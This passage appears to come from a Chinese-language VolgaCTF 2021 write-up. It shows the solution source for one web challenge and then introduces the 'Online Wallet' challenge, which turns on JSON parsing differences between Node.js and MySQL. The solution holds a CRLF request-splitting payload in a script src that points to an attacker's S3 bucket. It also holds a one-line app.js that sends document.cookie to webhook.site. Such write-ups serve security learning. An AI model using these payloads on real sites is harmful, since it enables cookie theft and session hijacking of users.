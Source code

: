 

index.html

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  </head>

  <body class="text-center">
    
    hello
    <script src="/static/app.js%20HTTP/1.0%0d%0aHost:%20ctftesthuli.s3.amazonaws.com%0d%0ayo:"></script>
  </body>
</html>
```



app.js

```js
window.location = 'https://webhook.site?c='+document.cookie
```





## 0x06 Online Wallet (Part 1)

https://wallet.volgactf-task.ru/

[app.js](https://q.2021.volgactf.ru/files/2fa643120c4a5a62284a40600bab6e55/app.js)

![image-20210328160532080](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210328160532080.png)

题目描述：

> 此任务是一个在线钱包，具有在您的帐户之间创建和转移资金的功能。要得到FLAG，您需要请求从帐户中提取资金，但是只有余额为负数或超过150个令牌时，才能使用该标志。注册时，将创建一个余额为100的钱包。

作者出题想法来源：[JSON互操作性漏洞探索](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities)



trick点：

- nodejs与mysql处理json数据的不同



在帐户之间转移资金时，对请求正文进行了2种不同的JSON解析。

第一次使用nodejs中的body-parser

```js
const bodyParser = require('body-parser')

app.use(bodyParser.json({verify: rawBody}))

const rawBody = function (req, res, buf, encoding) {
  if (buf && buf.length) {
    req.rawBody = buf.toString(encoding || 'utf8')
  }
}
```
